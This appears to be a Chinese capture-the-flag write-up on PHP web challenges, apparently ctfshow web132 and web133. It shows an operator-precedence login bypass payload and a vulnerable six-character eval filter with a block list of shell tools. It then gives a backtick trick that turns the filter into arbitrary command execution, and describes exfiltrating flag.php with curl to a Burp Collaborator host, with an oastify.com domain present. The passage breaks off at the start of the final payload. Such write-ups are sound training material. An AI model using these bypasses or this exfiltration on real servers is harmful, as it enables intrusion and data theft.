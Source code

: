 就是对**&&**和**||**运算符的理解，首先要知道

**||的优先级大于&&**

所以这句话实际上变为

`if($code === (mt_rand(1,0x36D) && $password === $flag) || $username ==="admin")`

只要后面那个满足就号

payload

`?username=admin&password=1&code=admin`

rd8wr4hg06pkskyz02g51550trzin7.oastify.com

+++

### <font color='orange'>web133-web135(不太懂)</font>

+++

#### 133

先贴个[详解](https://blog.csdn.net/qq_46091464/article/details/109095382)

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

绕过substr的办法

```php
?F=`$F`;
后面加代码
```

原理就是，通过**eval**执行了**F=\`F\`**这个命令，而**\`\`**是**shell_exec()**的缩写

然后就在**shell_exec()**再执行$F，此时你输入在后面的**cmd**就会被执行

后面就是考察linux的命令行能力了

curl -F 将flag文件上传到Burp的 Collaborator Client （ Collaborator Client 类似DNSLOG，其功能要比DNSLOG强大，主要体现在可以查看 POST请求包以及打Cookies）

```php
# payload 
#其中-F 为带文件的形式发送post请求
#xx是上传文件的name值，flag.php就是上传的文件 
